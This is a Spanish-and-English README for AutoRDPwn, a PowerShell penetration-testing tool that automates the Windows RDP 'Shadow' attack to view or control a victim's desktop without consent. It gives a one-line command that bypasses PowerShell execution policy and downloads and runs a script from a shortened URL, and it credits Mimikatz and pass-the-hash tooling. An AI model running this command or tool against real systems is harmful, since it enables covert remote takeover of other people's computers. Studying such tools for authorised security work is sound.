 
![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)



**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.


# Requisitos
Powershell 5.0 o superior


# Cambios

## Versión 4.0
• Resuelto un bug en la tarea programada para eliminar el usuario AutoRDPwn

• El ataque Scheluded Task ha sido reemplazado por Invoke-Command

• Ahora es posible elegir el idioma de la aplicación y lanzar el ataque a versiones inglesas de Windows

*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
**Ejecución en una línea:**

powershell -ExecutionPolicy Bypass "cd $env:TEMP ; iwr https://goo.gl/HSkAXP -Outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• **Mark Russinovich** por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Stas'M Corp.** por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** por su herramienta Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net

-------------------------------------------------------------------------------------------------------------
# English description

**AutoRDPwn** is a script created in Powershell and designed to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability allows a remote attacker to view his victim's desktop without his consent, and even control it on request. For its correct operation, it is necessary to comply with the requirements described in the user guide.

# Requirements
Powershell 5.0 or higher

# Changes
Version 4.0
• Fixed a bug in the scheduled task to remove the user AutoRDPwn

• The Scheluded Task attack has been replaced by Invoke-Command

• It is now possible to choose the language of the application and launch the attack on English versions of Windows

* The rest of the changes can be consulted in the CHANGELOG file

# Use
**Execution in a line:**

powershell -ExecutionPolicy Bypass "cd $ env: TEMP; iwr https://goo.gl/HSkAXP -Outfile AutoRDPwn.ps1;. \ AutoRDPwn.ps1"

**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva

# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.

# Credits and Acknowledgments
• **Mark Russinovich** for his tool PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Stas'M Corp.** for its RDP tool Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** for his tool Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** for his tool Mimikatz -> https://github.com/gentilkiwi/mimikatz

# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can contact through info@darkbyte.net

